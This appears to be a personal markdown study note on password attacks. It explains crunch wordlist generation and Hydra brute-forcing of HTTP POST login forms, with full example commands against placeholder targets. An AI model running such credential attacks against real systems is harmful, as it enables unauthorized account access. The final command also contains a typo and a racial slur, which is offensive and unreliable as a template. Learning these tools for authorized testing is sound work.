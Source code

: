 #### Definition :
###### Brute Force Attack : 
Using all forms of combinations to crack a password / username, usually good if password has few characters / digits

###### Dictionary attack :
Using a wordlist ( custom or downloaded ) and trying every single password from wordlist

#### Creating a wordlist using crunch :
Use - `crunch [min length] [max length] [characters to be used] -o [file name] -t [pattern]`

`Note : -t is optional and used if we want certain letters / digits in wordist`

Ex 1 : `crunch 4 4 123abc$ -o wordlist.txt -t a@@b`
Ex 2 : `crunch 4 6 12abc$ -o wordlist.txt`


#### Using Hydra to brute force :
`hydra -h` - for all commands

Basic Syntax : `hydra (thier ip) -l (username name) -P (file location consisting of wordlist)` <span style ="color : cyan">service_type </span> <span style ="color : magenta">"service"</span>

`Note : use -L (location of file containing username wordlist`

**I used** `http-post-form` **service_type cause I did inspect element and checked it to be post** 

for service do : `hydra -U http-post-form`, A long description should come 

Generally : service consists of **3 parts** each separated by `:`  being :
1. <span style ="color : lime">Rest of the URL excluding ip</span>

2. <span style ="color : orange">(username_variable)=^USER^&(password_variable)=^PASS^ ( other stuff )</span>

`Note : to find username and password use burp suite proxy to intercept go to headers section and` **also copy paste if anything besides variables is there**

3. <span style ="color : magenta ">F = (message appearing when wrong password)</span>

Final Code Example :

`hydra` <span style="color: yellow">IP or Domain name</span>  `-l` <span style="color: yellow">admin</span> `-P` <span style="color: yellow">/root/test.txt</span> <span style="color: cyan">http-post-form</span> `"` <span style="color: lime">Login Page Path</span> `:` <span style="color: orange">username=^USER^&password=^PASS^&login-php-submit-button=Login</span> `:` <span style="color: magenta">F=Not Logged In</span> `"`

Or 
```bash
hydra -l admin -P rockyou.txt -f target.com -s (port) htp-post-form "/login.php:username=^USER^&password=^PASS^:wrong password nigga." -t 64 -IV
```





